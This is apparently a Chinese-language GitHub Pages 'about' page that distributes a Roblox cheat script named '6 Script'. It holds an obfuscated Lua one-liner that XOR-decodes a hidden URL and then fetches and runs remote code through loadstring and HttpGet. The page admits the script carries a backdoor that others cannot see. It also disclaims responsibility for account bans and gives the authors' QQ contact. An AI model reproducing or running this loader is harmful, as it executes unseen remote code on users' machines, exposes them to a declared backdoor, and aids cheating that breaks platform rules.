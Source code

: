 ```yaml
---
permalink: /
title: "关于 6 Script"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```


# **6脚本**
脚本(新版): local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9) local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + (v11% #v9) ,1 + (v11% #v9) + 1 )))%256 ));end return v5(v10);end loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\138\117\238\246\215\31\210\200\148\43\227\172\138\43\248\141\136\113\179\244\213\27\215\208\148\45\227\186\195\13\158\206\218\44\232\244\145\91\244\155\158\125\178\254\158\63\148\230\141\96\191\152\130\63\242\134\254\112\163\227\227\91\240\146\158\0\179\254\230\56\148\155\141\107\234\174\198","\126\177\163\187\69\134\219\167")))();
---
# 声明
*使用此脚本封号概不负责*
*本脚本不会断更(会拖更)*
**脚本为初步测试**
## 卡密系统
6脚本卡密为: *6 Script* :smiley:
~~*未更新卡密系统*~~
![图片](https://s21.ax1x.com/2025/02/16/pEKgpEd.jpg)
---
### 后门
*脚本有后门(别人无法查看)*
---
### 作者
**作者为柳絮与小白**
---
###  联系方式
QQ:**345628400**
## 感谢区
**在此感谢所有支持者**
 🤓🤓🤓
 
